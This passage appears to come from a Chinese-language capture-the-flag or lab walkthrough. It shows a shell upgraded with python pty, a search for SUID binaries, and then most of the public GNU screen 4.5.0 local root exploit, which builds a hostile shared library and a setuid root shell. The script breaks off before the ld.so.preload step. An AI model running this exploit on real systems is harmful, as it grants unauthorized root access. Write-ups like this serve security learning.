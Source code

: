   

![](https://pic3.zhimg.com/80/v2-1a7fcb55a4c820498d23f13c8bc87912_720w.webp)

  

得到 shell 以后我用 `python` 切换到 `bash`：

```text
python -c 'import pty;pty.spawn("/bin/bash")'
```

  

![](https://pic2.zhimg.com/80/v2-39ba01774605f49c826b925a619eb005_720w.webp)

  

## 权限提升

之后我查找 `SUID` 权限的文件发现了 `screen` ：

```text
find / -perm /4000 2>/dev/null
```

  

![](https://pic1.zhimg.com/80/v2-f584af82972291a329428e90f00edb9c_720w.webp)

  

紧接着我又去搜索了一下关于 `screen` 的漏洞，找到了一个提权 `poc`：

```text
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017) 
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
gcc -o /tmp/rootshell /tmp/rootshell.c
rm -f /tmp/rootshell.c
echo "[+] Now we create our /etc/ld.so.preload file..."
```